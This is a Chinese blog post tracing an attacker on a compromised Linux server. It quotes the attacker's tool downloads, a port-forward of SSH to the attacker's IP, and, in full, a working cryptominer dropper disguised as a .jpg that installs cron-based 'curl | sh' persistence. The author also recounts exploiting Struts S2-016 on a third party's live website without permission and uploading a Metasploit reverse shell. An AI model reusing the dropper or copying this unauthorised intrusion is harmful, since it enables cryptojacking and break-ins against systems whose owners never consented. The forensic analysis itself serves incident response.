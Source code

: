 ```yaml
---
layout:   post
title:  "某服务器被黑，追踪入侵者"
subtitle: "记录一次入侵分析的经历"
date:  2017-07-05 23:28:02 +0800
author: Les1ie
catlog: true
tags:
 - 网络安全
 - 入侵分析
---
```

## 0x01 
一个linux运维的群里面，今天突然有人说服务器被黑了，日志被清除了，只留下了几条执行过的命令，他给出了个几个截图，都是他执行过的命令
![](/img/s2-016/first-ask.png)

## 0x02 
看了下他的截图， 攻击者最初是如何进入系统的已经无法知道了，说让他给我他公司服务器地址让我测试也没后文，所以对方如何进入服务器我也不得而知，他说服务器是tomcat的，觉得可能有apache的几个漏洞进去的，或者是账户被爆破，密钥泄露之类的

后来他给出了几个截屏，里面看到他在一个网站下载了一个工具包，目测是肉鸡，然后在里面装了portfoward 和pscan2, 然后扫了一波内网。
攻击者最初
```
$ wget http://98.142.135.215:8088/scan.tar.gz
```
攻击者下载了扫描的工具包，扫了一波内网，然后似乎是发现这个东西扫不动，编译了pscan2继续来，执行了
```
$ ./x 192.168
```
扫了整个内网
接着 
```
$ wget http://98.142.135.215:8088/portmap
```
![](/img/s2-016/subnet1.png)
这个时候是拿到了边缘主机的权限，下载工具准备搭建代理，准备内网继续攻击。
```
$ ./portmap -m 3 -h1 127.0.0.1 -p1 22 -h2 98.142.135.215 -p2 6666
```
嗯，这个人其实最开始没有加`./portmap`, 也没有 `chmod +x portmap`, 直接执行了`portmap xxxxx` 哈哈哈哈

![](/img/s2-016/portmap.jpg)
现在代理搭建好了，22转发到了攻击者机器去了，他这边也看不到记录了


后来他说在几台内网弱口令机器里面发现了攻击者下载的文件。我去肉鸡上把他下载下来了，上传到这里了，感兴趣的可以拿去分析一下。
```
$ curl -fsSL http://www.x.com/picture/lssh.jpg
$ curl -fsSL http://www.x.com/picture/xmr.tar.gz
```

攻击者扫的内网看起来收获不小...拿到了好多台服务器，再一次说明了内网脆弱

后来他说他没意识到攻击者此时正在他的电脑上，然后攻击者在发现他结束了恶意进程之后便删去日志走了



## 0x03
其实写博客的时候才发现他给的截图里面很多信息我都没注意到

我看了下下载`lssh.jpg`和`xmr.tar.gz`的网站，注意到了网址是`xxx.xx.com/index.action`觉得很有可能是s2-045打进去的，网上找了很多exp都不行，打不进去，后来找同学要了另外的exp, 发现另外的漏洞， s2-016, cve编号cve-2013-2251，还是一个远程执行的漏洞，拿着这个直接打进去了，找了下网站的根目录，发现了前人的脚步，很多的传上来的文件还有jsp的一句话，菜刀连了一下没连上，然后生成了一个msf的reverse_tcp传上去，没找到传到哪里去了也不想继续干下去了，因为怕事。。。另一个原因是...编程之美要提交项目了我还没干完...

另外发现网站的首页被挂了黑链
![](/img/s2-016/link.png)
..然后想了想，决定给管理员发邮件，网站被前人干成这样了都..

晚上回宿舍突然想着不如扔给补天吧，这样我不用自己出面找管理员补洞了。虽然觉得补天很不靠谱毕竟上次拿着root权限去都没过审核。

我自己在虚拟机里面下载了`xmr.tar.gz`, 看了下里面有这样的东西
![](/img/s2-016/xmr_file.png)

```bash
$ hack cat lssh.jpg 
#!/bin/sh
export PATH=$PATH:/bin:/usr/bin:/usr/local/bin:/usr/sbin
plt=`cat /proc/cpuinfo|grep aes`
ps x|grep stratum|grep -v grep|awk '{print $1}'|xargs kill -9 > /dev/null 2>&1
if [ `whoami` = "root" ]; then
    echo "*/5 * * * * curl -fsSL http://www.x.com/picture/lssh.jpg  | sh" > /var/spool/cron/root
    mkdir -p /var/spool/cron/crontabs
    echo "*/5 * * * * curl -fsSL http://www.x.com/picture/lssh.jpg  | sh" > /var/spool/cron/crontabs/root
curl -O http://www.x.com/picture/lssh.jpg  > /dev/null 2>&1; mv lssh.jpg /etc/cron.daily/anacron ; chmod +x /etc/cron.daily/anacron||wget -O /etc/cron.daily/anacron http://www.china-ash.jpg > /dev/null 2>&1 ; chmod +x /etc/cron.daily/anacron
else
    echo "*/5 * * * * curl -fsSL http://www.x.com/picture/lssh.jpg | sh" |crontab -	
fi
DoYam()
{
	if [ ! -f "/var/tmp/xmr.tar.gz" ]; then
curl -fsSL  http://www.x.com/picture/xmr.tar.gz -o /var/tmp/xmr.tar.gz || wget  http://www.x.com/picture/xmr.tar.gz -O /var/tmp/xmr.tar.gz
    fi
	tar zxf /var/tmp/xmr.tar.gz -C /var/tmp/	
    chmod +x /var/tmp/xmr/*
	export LD_LIBRARY_PATH=/var/tmp/xmr
	cd /var/tmp/xmr
	if [ "$plt" != "" ]
     then 
     (exec ./httpd -c httpd.cnf &> /dev/null &)
     else
	 #no aes 
	 (exec ./apache -c httpd.cnf &> /dev/null &)
    echo no
    fi
}
#ps auxf|grep -v grep|grep "httpd.conf" || DoYam
ps x |grep httpd.cnf|grep -v grep || DoYam
```
刚刚和龙腿聊了下，这个是在肉鸡上植入了一个apache服务器, 但是似乎并不是替换掉了原来的apache，明天我到实验室去放虚拟机里面跑一下，看看会发生什么


